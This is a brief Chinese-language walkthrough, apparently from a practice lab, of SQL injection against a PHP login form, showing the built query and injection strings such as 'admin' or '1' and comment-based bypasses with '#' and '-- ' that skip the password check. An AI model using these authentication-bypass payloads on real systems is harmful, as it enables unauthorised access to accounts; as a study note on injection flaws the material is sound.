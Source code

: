 

先隨變輸入並且dump 語句分析:

```php=
username = 11111111111111
password = 22222222222222

string(102) "SELECT * FROM `users` WHERE user = '11111111111111' AND password = '26c924b47cf221582c9d5aede42dadf5';"
```


<br/>
<br/>


使用單引號前後閉合，密碼已經不重要了，不可控

```php=
username = admin' or '1
password =

成功
string(100) "SELECT * FROM `users` WHERE user = 'admin' or '1' AND password = 'd41d8cd98f00b204e9800998ecf8427e';"

```


<br/>
<br/>



可以理解一下為沒閉合為何報錯
```php=
username = admin' or 1 #
password =
失敗報錯:
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' AND password = 'd41d8cd98f00b204e9800998ecf8427e'' at line 1




username = admin' or '1' = '1
password =
成功

```


<br/>
<br/>



註釋繞過
```php=
#號繞過
username = admin' #
password =

成功


-- (空格) (不加空格會失敗) 
username = admin' -- 
password =

成功

```